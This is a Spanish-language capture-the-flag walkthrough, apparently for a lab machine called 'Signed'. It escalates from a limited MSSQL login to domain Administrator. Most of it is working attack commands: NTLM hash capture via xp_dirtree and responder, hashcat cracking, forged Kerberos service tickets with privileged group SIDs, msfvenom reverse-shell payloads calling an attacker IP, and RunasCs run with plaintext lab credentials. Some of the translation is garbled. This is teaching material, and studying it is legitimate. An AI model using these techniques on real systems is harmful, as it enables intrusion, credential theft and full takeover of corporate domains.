---



---

Como es común en las pruebas de penetración de Windows de la vida real, se iniciará la caja Firmado con credenciales para la siguiente cuenta que se puede utilizar para acceder al servicio MSSQL: `scott` / `Sm230-C5NatH`

Este escenario representa un acceso inicial limitado a un servicio MSSQL en un entorno corporativo.

El objetivo es evaluar:

- Qué capacidades tiene un usuario SQL autenticado
- Si es posible pivotar hacia Active Directory
- Qué vectores permiten escalar privilegios fuera del contexto de la base de datos

Este tipo de situaciones es común en entornos donde servicios backend están expuestos pero con privilegios restringidos.

---


# Enumeración Inicial

  
El único servicio accesible es MSSQL (1433), lo que implica:

- No existe acceso directo al sistema operativo
- No hay vectores web o SMB accesibles
- Toda la explotación debe partir del contexto SQL

Esto obliga a buscar vectores indirectos de ejecución o fuga de credenciales.

Accedemos a la base de datos MSSQL expuesta utilizando las credenciales suministradas:

```sh
impacket-mssqlclient 'scott:Sm230#C5NatH'@signed.htb
```



#### Reconocimiento Rápido

- Que contexto y usuario estamos utilizando?
```mssql
SELECT SUSER_SNAME() AS login_name, ORIGINAL_LOGIN() AS original_login;
```

- Soy admin?
```mssql
SELECT IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin;
```

-  que roles existen y quién está en cada uno?
```mssql
SELECT name, type_desc, is_disabled FROM sys.server_principals WHERE type_desc IN ('SQL_LOGIN','WINDOWS_LOGIN','WINDOWS_GROUP');
```

- que puedo hacer con el usuario actual?
```mssql
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```


  
El usuario `scott` tiene permisos muy limitados:

- No es sysadmin
- No puede ejecutar comandos en el sistema
- No puede modificar configuración del servidor

Esto obliga a buscar técnicas de evasión o abuso de funcionalidades existentes.

#### Complementos de **impacket**



Aunque no es posible ejecutar comandos, ciertas funciones como `xp_dirtree` interactúan con el sistema de archivos.

Esto permite:

- Forzar autenticación hacia recursos externos
- Capturar hashes NTLM
- Pivotar desde SQL hacia Active Directory
  
#### MSSQL NTLM Stealer 

Podemos explotar el truco del  `xp_dirtree` de la ruta de la UNC y un pivote directo de Windows AD siguiendo la referencia previa. 

`xp_dirtree` invoca el archivo I/S de SQL Server a través de la API de Windows. Si le damos de comer una ruta de la UNC (\\host\share), el propio servicio SQL Server intenta contactar a esa acción de SMB usando la cuenta de servicio SQL Server (por ejemplo, NT SERVICE\MSSQLSERVERo un dominio/director de servicio). 

Cuando el servidor llega a nuestro host, Windows realiza una autenticación de red NTLM. Esa llamada produce un desafío/respuesta Net-NTLMv2 dirigido a nuestro `responder`, una captura creíble ordenada sin necesidad de derechos SQL elevados. 

Primero, levantamos un servidor de SMB (`responder` es rápido y contundente): 

```bash
sudo responder -I tun0
```

En nuestra sesión MSSQL: 

```bash
xp_dirtree \\10.10.16.5\share
```

Capturado NTLMv2:



La autenticación forzada revela un hash NTLMv2 de una cuenta de servicio.

Este tipo de cuentas suelen:

- Tener privilegios elevados
- Estar integradas en el dominio
- Ser reutilizadas en múltiples servicios

Rompemos con `hashcat`:

Podemos copiar y guardar el hash en un archivo, o utilizar el generado por `responder` en `/usr/share/responder/logs/`.

```bash
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -w 3 
```



La obtención de credenciales de dominio permite cambiar el enfoque:

👉 de explotación SQL  
👉 a compromiso de Active Directory

Esto abre nuevas posibilidades de escalada.
  
Sólo teníamos el puerto 1433 accesible, así que volvemos a MSSQL usando la credencial de dominio recuperada:

```bash
impacket-mssqlclient 'mssqlsvc:purPLE9795!@'@signed.htb -windows-auth
```

>[!NOTE]
>`scott` era un inicio de sesión SQL-autenticated (no -windows-auth). `mssqlsvc` es un **Windows Principal** que espera la autenticación integrada.

Se analiza cómo los principals de Windows están mapeados dentro de SQL Server.

Esto permite identificar:

- Qué grupos tienen privilegios elevados
- Cómo se traducen permisos de AD en SQL

Con `SIGNED\mssqlsvc` ahora disfrutamos de privilegios más amplios dentro del entorno de la DB:



#### Enumeración MSSQL

- `xp_cmdshell`

Ahora que controlamos `SIGNED\mssqlsvc`, `xp-dirtree` puede filtrar objetos del sistema de archivos:

```mssql
EXEC xp_dirtree 'C:\Users\mssqlsvc\Desktop', 9, 9;
```



`xp_cmdshell` sigue sin estar disponible para la ejecución de comandos arbitrarios:

```mssql
enable_xp_cmdshell
RECONFIGURE
```



Para habilitar `xp_cmshell` requiere `RECONFIGURE`, que a su vez exige privilegios elevados del servidor (por ejemplo: `sysadmin`, `ALTER SETTINGS` o `CONTROL SERVER`).

No vemos una ruta directa hacia adelante con respecto al servidor MSSQL en sí, pero ahora la conectamos con una cuenta de servicio de dominio. Así que podemos encontrar rutas de explotación en una perspectiva relacionada con AD.

Una idea más común es algo así como UPN (nombre principal del usuario) con una cuenta de servicio comprometida. Desde la sesión donde podemos leer `msdb`, listamos los **Windows mapped principals** para desde ahora tener visibilidad:

```mssql
SELECT name, type_desc FROM sys.server_principals WHERE type_desc LIKE 'WINDOWS%';
```



Se identifica que miembros del grupo `SIGNED-IT` son mapeados como `sysadmin` en SQL Server.

Esto implica que:

- El control de pertenencia a este grupo equivale a privilegios máximos en SQL
- Es posible escalar sin modificar directamente la configuración del servidor.

`sys.server-principals` enumera algunos **windows principals** y **groups**  (por ejemplo: `SIGNED-IT`, Usuarios de dominio SIGNED, varios NT SERVICE).
A continuación, confirmamos si los principals/grupos de Windows mapean roles elevados de servidor:

```mssql
SELECT r.name AS server_role, m.name AS member_name, m.type_desc FROM sys.server_role_members rm JOIN sys.server_principals r ON rm.role_principal_id = r.principal_id JOIN sys.server_principals m ON rm.member_principal_id = m.principal_id WHERE r.name IN ('sysadmin', 'securityadmin', 'setupadmin', 'serveradmin');
```



Eso significa que cualquier cuenta de Windows que sea miembro de `SIGNED-IT` será mapeada por SQL Server al rol de administrador cuando se conecte usando la autenticación de Windows.
Nuestra sesión actual está mapeada al usuario invitado de DB (por lo que acceso a nivel SQL = mínimo). Si nos autentificamos como usuario que está en SIGNED-IT, SQL nos verá como sysadmin.

Mostrar la ficha actual de Windows (lo que los grupos SQL ven para nuestra sesión):

```mssql
SELECT login_token.*, sid FROM sys.login_token;
```


No somos miembros de `SIGNED-IT` por el momento, solo `SIGNED\Domain Users`.

#### Complementos de **impacket** como **SIGNED\mssqlsvc**

- `enum-links` muestra un servidor conectado `DC01` (provider `SQLNCLI`, fuente de datos `DC01`) con auto-mapping (`Is Self Mapping = 1`)  consultas usando el servidor enlazado usará el contexto de seguridad actual (la cuenta se ejecuta la sesión como) al contactar con `DC01`. Si podemos cambiar nuestro principio de seguridad efectivo a una identidad de mayor privilegio, las llamadas a `DC01` se ejecutarán bajo esa identidad en el servidor vinculado.

- `enum_users` revela entradas binarias de SID. Podemos traducir el SID `0x0106000000000009010000...` a su nombre de cuenta usando `SELECT SUSER-SNAME(0x-<sid>)`.
- `enum_impersonate` devolvió una entrada que mostraba un permiso `IMPERSONATE` grabado en msdb (`row: IMPERSONATE ...subsidee = dc-admin`, `grantor = MS-DataCollectorInternalUser`). Significa que hay un permiso explícito relacionado con la suplantación en la referencia de `msdb` `dc-admin`. Esto indica que una suplantación primitiva puede existir en el entorno. Ya sea `dc.admin` puede hacerse pasar por alguna cuenta, o alguna cuenta puede suplantar `dc.admin` dependiendo de la dirección exacta.



La traducción de nombre `SID` es esencial, da el **windows principal** que podemos atacar con `EXECUTE AS` o cuando invocamos acciones a través del servidor enlazado `DC01`. 
Confirmar mapas:

```mssql
SELECT SUSER_SNAME(0x010600000000000901000000FB1B6CE60EDA55E1D3DDE93B99DB322BFC435563) AS account_name;
```

```mssql
SELECT SUSER_SNAME(0x56f12609fb4eb548906b5a62effb1840) AS account_name;
```



>[!note]
>`SUSER_SNAME(varbinary_sid)` le pregunta a `SQL Server`: Qué cuenta corresponde a este `SID` binario?

Ambos `SID` descifrados corresponden a `msdb Principals` no a cuentas humanas/dominios:

    ##MS_AgentSigningCertificate## 
        Director interno para SQL Server Agent firma de trabajo/certificados. Normalmente no interactivo y no una identidad de dominio.
    ##MS_PolicyEventProcessingLogin##
        Atado a los internos de la Administración de Base de Políticas; igualmente un login interno.

Dicho esto, los `cretificate-maped principals` pueden ser adquiridos: objetos firmados por un certificado que funciona con los privilegios de los mapas del certificado. Si un `certificate principal` tiene permisos elevados en el servidor, los módulos firmados pueden actuar con esos privilegios elevados.

#### TGS Forgery


Dado que no hay acceso directo a KDC/LDAP, se opta por forjar tickets Kerberos.

Esto permite:

- Suplantar identidades
- Evitar autenticación tradicional
- Obtener acceso privilegiado en servicios específicos

Sabemos que los miembros de `SIGNED\IT` contienen `sysadmin` en el servidor SQL. Con un `Service Principal` en la mano, podemos aprovechar el `ticketer` para falsificar un TGS para `SIGNED\mssqlsvc`. Según el libro de jugadas de [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden#practice), el `TGS (RC4/NT hash)` requiere identificadores explícitos de dominio/usuario/grupo:

```bash
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```

No hay `KDC/LDAP` (88/389 bloqueados), por lo que derivamos los argumentos localmente.

Ya sabemos `SUSER-SNAME(varbinary-sid)` resuelve un binario `SID` a un principio cuando `SQL` puede mapearla, y `SUSER-SID('DOMAIN-user')` produce el binario `SID` en raw.

Extraemos los `SID` binarios:



Tenemos que convertirlos a `SID` textual (S-1-5-21-...-RID) [Microsoft](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers?utm_source=chatgpt.com)

```Microsoft SID
revision | subcount | 6-byte ID authority (big-endian) | N× subauthorities (little-endian)
```

Para decodificar los binarios y separar `SID` y `RID` utilizamos `bin2sid.py`:

```python
#!/usr/bin/env python3
"""
bin2sid.py - convert a binary SID (hex) to textual SID (S-1-...).

Usage:
  python3 bin2sid.py 0105000000000005150000005b7bb0f398aa2245ad4a1ca44f040000
  python3 bin2sid.py "0x010500000000..." 
  python3 bin2sid.py "b'01050000...'"
"""

import sys

def normalize_hex(s: str) -> str:
    s = s.strip()
    # allow forms: 0x..., b'....', '....'
    if s.startswith(("0x","0X")):
        s = s[2:]
    if s.startswith(("b'", 'b"')) and s.endswith(("'", '"')):
        s = s[2:-1]
    s = s.replace(" ", "").replace("-", "")
    return s

def binhex_to_sid(hexstr: str) -> str:
    h = normalize_hex(hexstr)
    if len(h) % 2 != 0:
        raise ValueError("hex string length must be even")
    data = bytes.fromhex(h)
    if len(data) < 8:
        raise ValueError("binary SID must be at least 8 bytes")
    revision = data[0]
    subcount = data[1]
    # identifier authority is 6 bytes big-endian
    identifier_auth = int.from_bytes(data[2:8], byteorder='big')
    parts = [f"S-{revision}-{identifier_auth}"]
    offset = 8
    for i in range(subcount):
        if offset + 4 > len(data):
            raise ValueError("binary SID shorter than expected by subauthority count")
        sub = int.from_bytes(data[offset:offset+4], byteorder='little')
        parts.append(str(sub))
        offset += 4
    return "-".join(parts)

def domain_and_rid(sid_text: str):
    # domain = everything up to the last '-N', rid = last number
    i = sid_text.rfind('-')
    if i == -1:
        return sid_text, None
    return sid_text[:i], sid_text[i+1:]

def main():
    if len(sys.argv) < 2:
        print(__doc__)
        sys.exit(1)
    for arg in sys.argv[1:]:
        try:
            sid = binhex_to_sid(arg)
        except Exception as e:
            print(f"[error] '{arg}': {e}")
            continue
        domain, rid = domain_and_rid(sid)
        print(f"Input: {arg}")
        print(f"Text SID: {sid}")
        print(f"Domain SID: {domain}")
        print(f"RID: {rid}")
        print("-" * 40)

if __name__ == "__main__":
    main()
```

La conversión de SID binarios permite:

- Identificar dominio y RID
- Construir tickets válidos
- Entender la estructura interna de AD sin acceso directo a LDAP

Decodificamos `mssqlsvc` y `IT`:



Generamos el hash NT para `mssqlsvc` usando el módulo `hash` de `Rubeus` en un windows que tengamos a mano en local:



Finalmente, podemos utilizar `ticketer` para adquirir el `TGS` de `MSSQLsvc` en dominio:

```bash
impacket-ticketer -nthash EF699384C3285C54128A3EE1DDB1A0CC \
    -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
    -domain signed.htb \
    -spn MSSQLSvc/dc01.signed.htb \
    -groups 1105 \
    -user-id 1103 \
    mssqlsvc
```



Nos autenticamos utilizando `ccache`:

```bash
export KRB5CCNAME=mssqlsvc.ccache
```
```bash
impacket-mssqlclient -no-pass -k dc01.signed.htb -p 1433 -windows-auth
```

# Acceso

Una vez autenticados, ejecutamos la enumeración estándar y podemos observar que somos `sysadmin` en el servidor `SQL`:



#### RevShell


Una vez obtenidos privilegios `sysadmin`, SQL Server permite ejecutar comandos en el sistema mediante `xp_cmdshell`.

Esto transforma el acceso SQL en:

- ejecución de código en el sistema operativo

Como `sysadmin`, la funcionalidad `xp_cmdshell` se vuelve nuestra aliada definitiva. La activamos y mediante una carga útil bien elaborada, conseguimos al instante una conexión remota:



Al no ser una conexión muy estable, la forma más fácil de estabilizarla es mediante la adquisición de una sesión de `meterpreter`:

Creamos el binario que nos envíe la conexión desde la máquina remota a nuestro handler de `msfconsole`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=4444 -f exe > meterpreter_1.exe
```

Configuramos `msfconsole` y activamos el `handler`:

```msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```



Levantamos un servidor `http` con python para descargar el binario en la máquina remota y lo descargamos con `curl` en un directorio `c:\tmp` creado prviamente:



Ejecutamos el binario, y adquirimos la sesión:





Adquiriendo así la flag de user...


# Movimiento lateral y escalada

Mediante la manipulación de grupos en el ticket Kerberos, es posible:

- Incluir SIDs privilegiados
- Suplantar cuentas de alto nivel
- Escalar a Administrator

Misteriosamente, podemos recrear el ticket `TGS` impersonando al `Administrator` añadiendo `SID` típicos de grupos por defecto:

```bash
impacket-ticketer -nthash EF699384C3285C54128A3EE1DDB1A0CC \
    -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
    -domain signed.htb \
    -spn MSSQLSvc/dc01.signed.htb \
    -groups 512,519,1105 \
    -user-id 1103 \
    mssqlsvc
```



Debido a la cartografía principal de MSSQL, el boleto falsificado eleva la sesión de metro cuadrado en el contexto de seguridad del Administrador:


Desde el punto en el que estamos, podemos abusar de la función [OPENBROWSER BULK](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-bulk-transact-sql?view=sql-server-ver17) que sirve para leer archivos que son normalmente de nivel `Administrator Only`.

La función `OPENROWSET` permite leer archivos del sistema.

Esto puede utilizarse para:

- Acceder a archivos restringidos
- Obtener credenciales
- Extraer información sensible sin necesidad de shell interactiva

Para leer la flag:

```MSSQL
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS flag;
```



Pero como en un mundo real no existen flags, Miramos en la caché del historial de Powershell, donde se encuentran los comandos ejecutados y los secretos:

```MSSQL
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt',SINGLE_CLOB) AS p;
```



Con las credenciales en texto plano, invocamos `RunasCs` para conseguir una shell remota como Administrador:

- Subimos `RunasCs`



- Creamos un binario para meterpreter y lo subimos:




- Preparamos `msfconsole` para elevar la sesión anteriormente lograda:

```msfconsole
bg
set SESSION 1          
set LHOST tun0              
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 6666                               
run -j						       
```



Ejecutamos el binario haciendo uso de `RunasCs`

```
.\RunasCs.exe administrator Th1s889Rabb!t "cmd /c c:\tmp\meterpreter_2.exe"
```



Consigiendo así una shell estable como `Administrator` por `meterpreter`:



---

HAPPY HACKING

---



---

## Conclusión

Este escenario demuestra cómo:

- Un acceso inicial limitado a MSSQL
- Puede escalar hasta compromiso total del sistema

A través de:

- Fuga de credenciales mediante NTLM
- Reutilización de cuentas de servicio
- Abuso de mapeo entre AD y SQL
- Forjado de tickets Kerberos
- Ejecución de código vía SQL

El éxito radica en pivotar correctamente entre tecnologías (SQL → AD → Kerberos).

Este tipo de ataques es altamente representativo de entornos corporativos reales.